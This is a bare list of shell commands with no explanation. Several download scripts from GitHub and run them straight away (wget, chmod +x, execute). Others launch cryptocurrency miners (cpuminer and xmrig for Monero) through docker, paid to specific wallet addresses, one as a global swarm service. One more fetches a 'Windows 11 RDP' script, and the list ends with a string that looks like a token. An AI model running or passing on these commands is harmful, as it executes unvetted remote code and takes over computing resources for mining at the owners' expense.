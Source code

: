 # wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/home.sh && chmod +x home.sh && ./home.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/sug.sh && chmod +x sug.sh && ./sug.sh

# docker service create --mode=global --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a yespower -o stratum+tcps://stratum-asia.rplant.xyz:17079 -u VVPBKDtfy9hJRuFEhZ8Lj1yR5TaNAcVobb.cloud1

# docker run --restart=always miningcontainers/xmrig:latest --tls -o xmr-us-east1.nanopool.org:14433 -u 83ErkzmC8yH2omjYvg6G7vc4fiP33k9EsXrGjs4ssW7hetWN3VHKgtVDsGTpjipJmDMWnsgpfb32NYw186uYE2UyEcDv343 --coin monero

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/tid.sh && chmod +x tid.sh && ./tid.sh

# wget https://raw.githubusercontent.com/penjelajahwaktu/subrek/main/der.sh && chmod +x der.sh && ./der.sh

# wget -O run.sh https://raw.githubusercontent.com/DEV-DJNEWSENSE/WINDOWS11-RDP/main/run.sh && chmod +x run.sh && ./run.sh

# 2KtRkhcqvGb9pHLTIlm35oPjzf2_4bLwDzDfPeEEuMaVGBtmW
